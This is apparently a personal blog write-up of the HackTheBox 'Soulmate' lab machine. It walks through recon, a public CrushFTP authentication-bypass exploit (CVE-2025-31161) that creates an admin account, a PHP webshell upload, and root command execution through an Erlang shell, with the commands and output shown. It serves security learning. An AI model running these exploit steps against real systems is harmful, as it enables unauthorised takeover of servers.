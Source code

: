 ```yaml
---
layout: ../../layouts/post.astro
title: Soulmate Write-Up
description: A comprehensive writeup of the HackTheBox Soulmate machine.
dateFormatted: Oct 19, 2025
topic: ["Red Team"]
technologies: ["Linux", "HackTheBox"]
---
```


![pwn](https://i.imgur.com/W5RvROp.png)

## Overview

In HackTheBox's Soulmate machine, I exploited an unpatched CrushFTP instance on HackTheBox Soulmate machine to gain an initial foothold on the FTP web server. Followed by a PHP webshell for post-exploitation. Through the use of linPEAS, I ran automated enumeration to gain information on the user which revealed cleartext credentials to gain user access. Upon gaining access, I discovered a misconfigured Erlang service which reused those credentials and abused the erlang console by root command execution.


### Conducting initial recon through nmap to discover any open ports:

To confirm my VPN is connected correctly, and confirm the machine is reachable, I pinged the target machine IP address.

![ping](https://i.imgur.com/MqDxE2Z.png)


 `nmap -sV -p 1-65535 -T4 -A -v -Pn 10.10.11.86`

```bash
Nmap scan report for 10.10.11.86
Host is up (0.067s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://soulmate.htb/
```
### Findings
- Port 80 (HTTP)
- Port 22 (SSH)

### Troubleshooting 

Port 80 appears to be running nginx 1.18.0. Initially I tried just visiting `http://10.10.11.86`, which kept returning server not found errors. After doing some research, I found out I add to add the ip to the `/etc/hosts` file for it to correctly resolve to `http://soulmate.htb` For future notice, when the nmap scan returns something along the lines of "Did not follow redirect to `<hostname>`, you need to add the ip and hostname to the hosts file.

After adding the ip/hostname to the hosts file, we can view the web server running a dating website.

![soulmate](https://i.imgur.com/IwjdT7w.png)

### Directory Enumeration

Since port 10.10.11.86:80 is open and resolves to http://soulmate.htb, I ran a gobuster script against a wordlist to discover any subdomains/directories.

```bash
┌──(assess㉿kali)-[~/ctf/htb/soulmate]
└─$ sudo gobuster vhost -u http://soulmate.htb -w /usr/share/seclists/Discovery/DNS/bug-bounty-program-subdomains-trickest-inventory.txt -append-domain -t 100
[sudo] password for assess: 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://soulmate.htb
[+] Method:                    GET
[+] Threads:                   100
[+] Wordlist:                  /usr/share/seclists/Discovery/DNS/bug-bounty-program-subdomains-trickest-inventory.txt
[+] User Agent:                gobuster/3.8
[+] Timeout:                   10s
[+] Append Domain:             true
[+] Exclude Hostname Length:   false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
ftp.soulmate.htb Status: 302 [Size: 0] [--> /WebInterface/login.html]
Progress: 1613291 / 1613291 (100.00%)
===============================================================
Finished
===============================================================

```

GoBuster found a hit on `ftp.soulmate.htb/WebInterface/login.html`

Visting the URL, it appears to be a login screen for Soulmate's FTP server, CrushFTP.

Examining the network traffic, I believe I was able to identify the version of CrushFTP `11.W.657`.

![logincrush](https://i.imgur.com/nOr1h80.png)

Conducting vulnerability research on this version of CrushFTP led me to exploit-db, giving further details into CVE-2025-31161.

### Vulnerability

CrushFTP before 10.8.4 and 11.3.1 allows unauthenticated HTTP(S) port access and full admin takeover through a race condition and header parsing logic flaw in the AWS4-HMAC authorization mechanism. 

Exploiting this allows bypassing authentication and logging in as any known user (e.g. crushadmin)

-----------

Conducting further research into CVE-2025-31161 led me to a publicly available PoC.

```
https://github.com/Immersive-Labs-Sec/CVE-2025-31161
```
Running our exploit:

```bash
┌──(assess㉿kali)-[~/ctf/htb/soulmate/CVE-2025-31161]
└─$ python3 cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --new_user adminv2 --password admin123
[+] Preparing Payloads
  [-] Warming up the target
  [-] Target is up and running
[+] Sending Account Create Request
  [!] User created successfully
[+] Exploit Complete you can now login with
   [*] Username: adminv2
   [*] Password: admin123.
```

### Exploitation

Now that we have created and logged into our new admin account, we can succesfully login to the FTP web server.

Navigating to the admin console, there is a User Manager tab that shows all of the users with access to the CrushFTP server. Reviewing the users, it looks like Ben works in Soulmates IT/Web Department.

![users](https://i.imgur.com/1feG9lY.png)

Using the admin interface, I reset Ben's password and logged into his account and navigated to the webprod directory. I don't know how to write custom shells, so I found a PHP webshell on [GitHub](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) and uploaded it into the webProd directory.

![webshell](https://i.imgur.com/lEcS1Xo.png)

Through the webshell, we were able to execute [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) and gain access to Ben's credentials in clear text, and logging in via SSH, gave us the user flag.

![user](https://i.imgur.com/pPppTGW.png)


### Gaining Root Access

Additionally, in the linPEAS output, we found several mentions of Erlang running on port 2222.

To login, we used Ben's original SSH credentials, and was able to gain access into the Erlang service running on root permissions.

Doing research on command execution in Erlang, I came across a vuln.be article explaining OS command execution.

![erlang](https://i.imgur.com/4j8yMOA.png)

So, lets try and find the root flag using this command execution

```bash
┌──(assess㉿kali)-[~/ctf/htb/soulmate]
└─$ ssh ben@soulmate.htb
ben@soulmate.htb's password: 
Last login: Sun Oct 26 17:28:59 2025 from 10.10.14.200
ben@soulmate:~$ ls
user.txt
ben@soulmate:~$ cat user.txt
[DEPRECATED]
ben@soulmate:~$ ls
user.txt
ben@soulmate:~$ ssh ben@localhost -p 2222
ben@localhost's password: 
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1> os:cmd("id").
(ssh_runner@soulmate)1> os:cmd("id").

"uid=0(root) gid=0(root) groups=0(root)\n"
(ssh_runner@soulmate)2> os:cmd("cat /root/root.txt").
(ssh_runner@soulmate)2> os:cmd("cat /root/root.txt").

"[DEPRECATED]\n"
(ssh_runner@soulmate)3> 
```
### Ending Thoughts

As this was my first red team box, Soulmate was a great exercise for me to chain together small investigate hints to a full compromise of the system.
A couple technical takeaways for this machine:

- __Host and vhost discovery:__ The initial 'did not follow redirect' was a small clue that paid off huge once `soulmate.htb` was added to `/etc/hosts`. 
- __Patch Management:__ Discovering multiple vulnerabilities through CrushFTP, and Erlang through public PoC's was the pivot point that led from initial recon to full admin access. Patch Management is so important for organizations to address, this whole attack could have been prevented through the patching of CrushFTP. 
- __Enumeration:__ Using linPEAS for this machine worked out very well for automated enumeration, which gave me insight into what to dig into.
